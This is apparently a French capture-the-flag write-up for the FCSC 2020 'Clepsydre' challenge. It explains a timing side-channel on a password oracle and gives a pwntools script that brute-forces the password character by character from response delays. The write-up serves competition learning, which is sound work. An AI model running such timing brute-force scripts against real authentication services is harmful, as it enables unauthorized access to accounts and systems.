 ```yaml
---
title: "Clepsydre"
subtitle: "Challenge de Misc du FCSC 2020"
published: true
author: "Bdenneu"
ctf: "FCSC"
annee: "2020"
---
```


# L'énoncé

À l'origine, la clepsydre est un instrument à eau qui permet de définir la durée d'un évènement, la durée d'un discours par exemple. On contraint la durée de l’évènement au temps de vidage d'une cuve contenant de l'eau qui s'écoule par un petit orifice. Dans l'exemple du discours, l'orateur doit s'arrêter quand le récipient est vide. La durée visualisée par ce moyen est indépendante d'un débit régulier du liquide ; le récipient peut avoir n'importe quelle forme. L'instrument n'est donc pas une horloge hydraulique (Wikipedia).

Service : nc challenges2.france-cybersecurity-challenge.fr 6006

# Qu'est ce qu'on a là ?

On se retrouve devant un oracle qui nous demande un mot de passe. Une citation est même donnée sur la patience. On peut penser à une time based attack.

![](/assets/images/FCSC2020/Clepsydre/1.png)

Au final, en mettant la citation en mot de passe, le temps de réponse est plus long. Tentons le bruteforce:

```python

from pwn import *
from string import printable
import time

alphabet = string.printable
passwd = ""
while 1:
    for i in alphabet:
        print(i)
        r = remote('challenges2.france-cybersecurity-challenge.fr', 6006, level="error")
        r.recv()
        r.sendline(passwd+i)
        start = time.time()
        data = r.recv()
        if int(time.time()-start) == len(passwd)+1:
            passwd += i
            print("Found: ",passwd)
            print(data)
            r.close()
            break
    r.close()

```

# Flag

![](/assets/images/FCSC2020/Clepsydre/2.png)


